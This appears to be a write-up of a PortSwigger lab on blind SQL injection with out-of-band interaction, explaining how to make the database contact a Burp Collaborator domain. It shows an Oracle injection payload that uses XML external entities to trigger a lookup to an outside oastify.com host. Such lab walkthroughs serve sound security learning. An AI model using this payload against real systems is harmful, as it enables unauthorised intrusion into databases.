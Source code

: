 ## Question:

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/fc896581-2e92-4aa9-b6be-eb2c2c0b5a6a)

## Solution:

The payloads for each domain to perform a DNS lookup to an external domain.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/62e77cbb-65bd-47e8-863e-3f4371c8ed79)

Query made -

`SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '<COOKIE-VALUE>'`

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/b47a5684-105b-4c94-b0ad-269843e6cffc)

Then click on copy to clipbord option = `t828uox8ju7ieb53eurz8unel5rwfm3b.oastify.com` we need paste it in the payload which we are going to do.

Since we are unsure of the database we are working with, we attempt every payload listed on DNS lookup for every database.

So the first one will be Oracle

For that the payload is

`SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual)--`

Then query will be changed by pasting the external domain provided by collaborator would look like this

`SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' ' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://in9x9dcxyjm7t0kstj6onj230u6luci1.oastify.com/"> %remote;]>'),'/l') FROM dual)--`
